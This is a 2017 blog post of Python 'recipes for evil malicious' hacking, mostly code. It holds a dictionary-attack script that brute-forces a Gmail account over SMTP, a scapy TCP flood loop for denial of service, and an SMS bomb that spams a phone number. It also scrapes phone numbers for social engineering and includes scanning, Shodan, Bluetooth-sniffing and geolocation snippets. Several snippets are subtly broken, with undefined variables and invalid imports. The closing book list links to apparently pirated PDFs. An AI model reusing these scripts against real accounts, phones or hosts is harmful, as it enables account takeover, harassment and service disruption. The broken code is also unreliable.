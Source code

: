 ```yaml
---
title: Python for Security
date: 2017-04-08 00:00:00 Z
layout: post
---
```


Python is one of the greatest programming languages for hackers. Not because of its easiness actually, but it is __beginner-friendly__ and __fast to deploy__. One of the best thing about the language is the resemblance to that of a natural language, sharing syntactical and semantical rules that very much look like English.
<!--more-->

```python
for i in range(0, 50):
  print "Hello"
```

Without a doubt, Python has that pseudocode feel that gives it the edge of being an _ideal_ language for the greenhorn. But still, with the vast variety of libraries, modules and frameworks available for the language, the use of Python is also incredibly __expansive__. In this article, we are going to implement Python for the intent of penetration testing.

Take __Black Hat Python__ for example. Great book. Ever wanted to build a quick TCP server? Simple. Implement `socket`. Make an object, connect, send some header data, and await a response. Working with networking and TCP/IP has never been easier.

```python
host = "www.test.com"
port = 80
obj = socket(socket.AF_INET, socket.SOCK_STREAM)
obj.send("GET / HTTP/1.1\r\nHost:" + host + "\r\n\r\n")
response = obj.recv(4096)
print response
```

The point is, with an ever growing collection of Python libraries and easy to deploy code, Python is ideal for the modern hacker. If you ever look at some of the source code for popular pentesting tools, you will see a large
amount of Python.

Well, today I'm more of here to talk to about some applicable code you can use in pentesting situations, where you may not always have access to a Kali machine. And maybe with some ingenuity, you can even execute
this code on a mobile device. So here are my favorite Pythonic recipes.

## 1. Extract Phone Numbers
Let's start off with something simple. Say we want to siphon some Phone Numbers from a document or some sort of webpage. We want to social engineer these numbers, but the page is just spewing a ton of bullshit we don't care much for.

```python
import re, urllib
url = "www.test.com/contact.html"
htmlFile = urllib.urlopen(url)
html = htmlFile.read()
phoneNums = re.findall(r'^(\+\d{1,2}\s)?\(?\d{3}\)?[\s.-]\d{3}[\s.-]\d{4}$', html)
print phoneNums
```

The core component that you need to understand is 5th line, where you would see a random string. What is it?
That is known as a __regular expression__. This is basically a special string that signifies a specific
pattern to look for. That specific regex specified looks for standard phone-numbers in these formats:

```
###-###-####
(###) ###-####
### ### ####
###.###.####
```

[(source for regex)](http://stackoverflow.com/questions/16699007/regular-expression-to-match-standard-10-digit-phone-number)

## 2. Hacking SMTP (email)

With the vast collection of modules for Python, there obviously is one for __SMTP__, also known as ___Simple
Mail Transfer Protocol___. This is the protocol utilized by email services. Let's make a simple script that launches a dictionary attack on a sample Gmail account (can be utilized on other SMTP services, such as Yahoo).

```python
import smtplib
username = "hackme@gmail.com"
# Specify a wordlist
wordlist = open("wordlist.txt", 'r')
for i in wordlist.readlines():
      password = i.strip("\n")
      try:
          s = smtplib.SMTP("smtp.gmail.com", 587)
          s.ehlo() # identify self to server to confirm working
          s.starttls() # start secure connect
          s.ehlo
          s.login(username, str(password))
          print "Found! Password: %s" % password
          s.close
        except:
          print "OOPs something went wrong"
```

Let's look at a few lines. the `for` keyword takes each newline within the `wordlist.txt` and appends it as a possible password. When we look at line 8, a SMTP object is defined, connecting to the Gmail SMTP server on port 587. The SMTP object would attempt to login using with the username, and each password from within the wordlist.

## 3. TCP DoS attack
This quick script provides a way for the user to employ a quick stress.

```python
from scapy import *
target = "127.0.0.1" # replace with target IP address
port = 80
sport = 8080 # replace with source port, or import random to randomize.
while True:
  send(IP(dst=target) / TCP(sport=x,dport=port), inter=.005)
  print "Sent. Kill with Ctrl + C"
```

We look at line 6. This implements the module `scapy`. Three variables are utilized, a target address, port,
and source port. The send() method identifies that, as well as using the TCP protocol.

## 4. Searching Vulnerability with Shodan
This script implements the `shodan` API in order to find vulnerable devices/services.

```python
import shodan
SHODAN_API_KEY = # key here
# Create object
api = shodan.Shodan(SHODAN_API_KEY)
try:
    results = api.search("") # string to search
    print "Result: %s" % results[total]
    for result in results['matches']:
        print "IP: %s" % result['ip_str']
        print result['data']
except shodan.APIError, e:
    print "Something went wrong"
```

## 5. Scanning with Nmap
Very simple host scan using the `python-nmap` module.

```python
import python-nmap
ip = '127.0.0.1' # replace with target host
scan = nmap.PortScanner()
scan.scan(ip, '0-65535') # scan host, all ports
```

## 6. Sniffing Bluetooth Devices

```python
from bluetooth import *
from time import *
found = []
def findDevices():
    foundDevs = discover_devices(lookup_names = True)
    for (addr. name) in foundDevs:
        if addr not in alreadyFound:
            print "Found Device " + str(name)
            print "MAC Address: " + str(addr)
            found.append(addr)
while True:
    findDevices()
    sleep(5)
```

## 7. SMS Bomb
This script uses the `smtplib`, just as the SMTP cracker does. However,
this time it is implemented on email-2-text carrier address.

```python
import smtplib
# It is important to use a disposable Gmail account
gmail = "test@gmail"
password = "somepassword"
target_num = "123-456-7890@vtext.com"
# Example Verizon SMS address. Replace with carrier address of num.
o = smtplib.SMTP("smtp.gmail.com:587")
o.starttls()
o.login(gmail, password)
message = "Something hi"
spam_msg = "From: {} \r\nTo: {} \r\n\r\n {}".format(gmail, phone_num, message)
counter = 20 # execute 20 times
for i in range(counter):
      o.sendmail(gmail, phone_num, spam_msg)
```

## 8. Geolocation
Take an IP address, and you get back some nice juicy information about geolocation.

```python
import pygeoip
# GeoIP object
gi = pygeoip.GeoIP('GeoIP.dat') # specify database file for GeoIP.
gi = pygeoip.GeoIP('GeoIPRegion.dat') # region
gi = pygeoip.GeoIP('GeoIPCity.dat') # city
gi = pygeoip.GeoIP('GeoIPISP.dat') # ISP
ip = "127.0.0.1" # replace with IP address!
# Country
gi.country_name_by_addr(ip) #=> "United States" for e.g
gi.region_by_addr(ip) #=> {'region_name': 'NY', 'country_code': 'US'}
gi.record_by_addr(ip) #=> Returns a huge dict of stuff Im not even gonna give an example
gi.org_by_addr(ip) #=> "Super Techcom ISP Inc. Corp."
# More info: https://github.com/appliedsec/pygeoip/wiki
# Even more info: http://pygeoip.readthedocs.io/en/v0.3.2/getting-started.html
```

That's just some of my favorite quick delicious recipes for evil malicious Pythonic hax3z.

As a language that includes elements of a __procedural scripting__ language and __object-oriented__ language, Python provides at-ease use for both hackers and engineers. I rely greatly on Python when it comes to writing scripts and projects, and hopefully, I'll continue to utilize it. However, to add some variation, I'll start with some projects in C, Rust and Ruby as well. Exploitation is looking nice, so that's something I'm aiming at.

Thanks for reading, and more is coming! Here is a gr8 list of books by hackers for hackers with relevance to Python:

* [__Black Hat Python__](http://file.allitebooks.com/20150521/Black%20Hat%20Python.pdf)
* [__Gray Hat Python__](http://www.chinastor.org/upload/2015-08/15081917086229.pdf)
* [__Violent Python__](https://repo.zenk-security.com/Programmation/Violent%20Python%20a%20Cookbook%20for%20Hackers-Forensic%20Analysts-Penetration%20testers%20and%20Security%20Engineers.pdf)
* [__Automate the Boring Stuff with Python__](https://automatetheboringstuff.com/)
